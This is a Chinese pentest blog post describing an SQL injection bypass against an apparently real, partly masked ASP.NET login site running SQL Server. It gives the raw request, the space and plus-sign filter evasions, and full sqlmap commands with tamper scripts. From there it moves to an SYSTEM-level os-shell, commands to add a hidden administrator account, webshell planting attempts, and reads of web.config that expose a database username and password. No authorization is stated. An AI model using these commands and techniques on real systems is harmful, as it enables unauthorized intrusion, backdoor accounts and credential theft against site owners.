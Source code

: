 ```yaml
---
date: 2020-06-22 17:35:07
title: 记一次 SQL 注入简单 bypass
description: 注入 bypass
categories:
  - Pentest
tags:
  - SQL注入
  - bypass
---
```


### 0x00 存在 SQL 注入
总之是遇到一个站，登录的页面，数据包大致如下：
```
POST /jsweb/userlogin/UserLoginAction.aspx HTTP/1.1
Host: 115.xxx.xxx.xxx:8042
Content-Length: 47
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://115.xxx.xxx.xxx:8042
Referer: http://115.xxx.xxx.xxx:8042/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: ASP.NET_SessionId=bxdzehxa5mvoco1fkrjlbqbt
Connection: close

uname=admin*&pwd=dskfsdkf&valCode=1197&telphone=
```

其中验证码可以绕过，而登录名那里存在注入
![](/img/post/Xnip2020-09-13_22-20-51.jpg)
![](/img/post/Xnip2020-09-13_22-21-32.jpg)

使用 and 1=1、and 1=2 时，发现过滤了空格，用/**/代替
![60](/img/post/Xnip2020-09-13_22-30-08.jpg)
![60](/img/post/Xnip2020-09-13_22-30-34.jpg)

### 0x01 简单看一下

中间件是 IIS，存在 len 函数，确定为 SQLServer
![60](/img/post/Xnip2020-09-13_22-33-36.jpg)

Order by 一下，看看能不能 union，发现有 10 列
![60](/img/post/Xnip2020-09-13_22-34-56.jpg)

尝试 union select
![80](/img/post/Xnip2020-09-13_22-40-54.jpg)

admin 转换为 int 时出错，感觉好像能显示位，测试发现确实可以显示
![80](/img/post/Xnip2020-09-13_22-41-55.jpg)

可以获取数据库版本，可以确定有 union 注入了
![](/img/post/Xnip2020-09-13_22-42-59.jpg)

### 0x02 sqlmap
```sqlmap跑一下：sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment```
![](/img/post/Xnip2020-09-13_22-45-24.jpg)

比较奇怪，手工的时候可以 union 的，先看看 boolean-based 获取数据吧

-\-current-db 倒是能获取到数据库名为 ExamDataP_2019，但是获取表名的时候就返回空了

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment -D ExamDataP_2019 --tables```
![](/img/post/Xnip2020-09-13_22-46-35.jpg)

能判断出来有注入，手工测试 and 1=1 时可以，测试 union 也可以，看来确实有过滤

### 0x03 探测过滤
看看过滤了啥，union 比较快，就用 union、-v 5 看下 payload

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment --technique=U --current-db -v 5```

直接拿最后一个 payload 测试下
![](/img/post/Xnip2020-09-13_23-05-33.jpg)

提示 98 附近有错误
![80](/img/post/Xnip2020-09-13_23-06-19.jpg)

感觉像过滤了char之类的函数，char 移到显示位，测一下

发现有加号的时候出错，没有的时候就没问题，可能是处理加号了
![80](/img/post/Xnip2020-09-13_23-07-17.jpg)
![80](/img/post/Xnip2020-09-13_23-08-12.jpg)

移到显示位测了下，确实处理加号了，替换为空了
![80](/img/post/Xnip2020-09-13_23-08-59.jpg)

### 0x04 tamper
去网上找了能替换加号的，没有找到相关信息，后来想着 sqlmap 的 tamper 会不会有，结果还真有
![](/img/post/Xnip2020-09-13_23-09-50.jpg)

有两个 tamper，一个是适用 2012 的，一个是 2008 的，我们这里的数据库是 08 的，用 plus2fnconcat.py 这个，可以判断出来数据库了

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment,plus2fnconcat --technique=U --current-db```
![](/img/post/Xnip2020-09-13_23-10-55.jpg)

Emmmmm，可以获取数据库表，但是获取表的列名时依然不返回数据
![](/img/post/Xnip2020-09-13_23-12-12.jpg)

### 0x05 再次探测过滤
同样 -v 3 看 payload，然后测试
![](/img/post/Xnip2020-09-13_23-13-06.jpg)

有语法错误，估计又是那个被替换为空了，慢慢试。。。

看了下语句，涉及到的也就是 union、select、concat、cast、from、syscolumns、sysobjects、where、and 这些个可能被过滤的，union、select 没问题，前面测试过了，剩下的被处理的关键字感觉大概率是 from、and。。。。
![70](/img/post/Xnip2020-09-13_23-13-59.jpg)

语法错误。。。应该就是 from 了。能报错，还是想法报错到显示位

emmmm，感觉好像没有哪里过滤。。。但就是有语法错误。。。
![](/img/post/Xnip2020-09-13_23-14-57.jpg)

网上查了下，其实前面的 from 出错是因为表的原因，from 1，没有 1 这个表，所以出错。。。。。

sqlserver 和 mysql 不一样，还是用的少。。。
![90](/img/post/Xnip2020-09-13_23-15-38.jpg)

但是再次找个 pyaload 尝试依然有问题，不返回数据
![70](/img/post/Xnip2020-09-13_23-16-39.jpg)

同样的语句本地测试是可以返回数据的，费解
![80](/img/post/Xnip2020-09-13_23-17-18.jpg)


### 0x06 os-shell
实在没法了，-\-is-dba 为 True，直接 -\-os-shell
```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment,plus2fnconcat --os-shell```
![](/img/post/Xnip2020-09-13_23-18-11.jpg)

emmmmmm，system，啥都不说了。。。。。
![90](/img/post/Xnip2020-09-13_23-19-19.jpg)

看下端口
![70](/img/post/Xnip2020-09-13_23-19-55.jpg)

添加用户不行，卡死，估计是被拦截了
```net user Guest1 Aa123456. /add & net localgroup administrators Guest1 /add & net user Guest1 /active:yes```
![](/img/post/Xnip2020-09-13_23-20-30.jpg)

看了下 tasklist，有 360，先传个 shell 吧，方便后续渗透

找路径: ```dir /s /b e:\"username.jpg"```
![70](/img/post/Xnip2020-09-13_23-21-31.jpg)

通过 echo 写 txt 判断路径，试了几个都不是，写中文路径提示不存在。。。。。
![](/img/post/Xnip2020-09-13_23-22-51.jpg)

本来网上查可以用 bat 写中文路径文件，用了 certutil、bitsadmin、powershell 都没有下载成功

看下有没有不是不包含中文的 web 路径: ```type C:\Windows\System32\inetsrv\config\applicationHost.config```

发现 80 端口路径为 c:\inetpub\wwwroot\
![85](/img/post/Xnip2020-09-13_23-23-33.jpg)

写一句话: 
![](/img/post/Xnip2020-09-13_23-24-28.jpg)

访问后出错
![70](/img/post/Xnip2020-09-13_23-25-10.jpg)

后续测试发现通过浏览器写中文名的话可以，创建了文件 9d.txt，证明网站路径就是 e:\江xxxx网站\JsWeb\
![90](/img/post/Xnip2020-09-13_23-26-00.jpg)

现在的话就知道了目标的绝对路径为 e:\江xxxx网站\JsWeb\，同时目标的 80 端口的绝对路径为 c:\inetpub\wwwroot\

PS: 由于当时有别的事，没有继续向下做，其实还可以数据库备份 shell 到网站目录，后续也见到了一个不会出现 "/" 应用程序中的服务错误的 webshell

### 0x07 找数据库信息
找 Web.config，```dir /s /b e:\"Web.config"，type e:\b2cexam\web.config```
获取到一个数据库用户名密码user id=kw;password=123456;
![](/img/post/Xnip2020-09-13_23-27-23.jpg)
![](/img/post/Xnip2020-09-13_23-29-21.jpg)
